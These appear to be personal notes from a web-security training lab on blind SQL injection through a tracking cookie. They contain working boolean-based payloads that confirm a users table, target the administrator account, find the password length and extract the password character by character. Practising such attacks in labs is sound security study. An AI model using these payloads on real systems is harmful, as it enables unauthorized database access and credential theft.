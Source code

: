 # Conditional responses
## Lab
Check table.
```sql
TrackingID=<cookie>' AND (select 'a' from users Limit 1)='a
```
This returns TRUE

Check User.
```SQL
TrackingId=<cookie>' AND (select 'a' from users where username='administrator')='a
```
Also TRUE

Now to brute force the password.
First guess the length
```SQL
TrackingId=<cookie>' AND (select 'a' from users where username='administrator' AND length(password)>30)='a
```
Using boolean logic you find out the length is 20.

Payload
```sql
TrackingId=<cookie>' AND (select substring(password,<index>,1) from users where username='administrator')>'a
```
It works!
Wrote a python script cause doing it in burp won't do binary search.
# Conditional Errors
pwd length =20
script works :)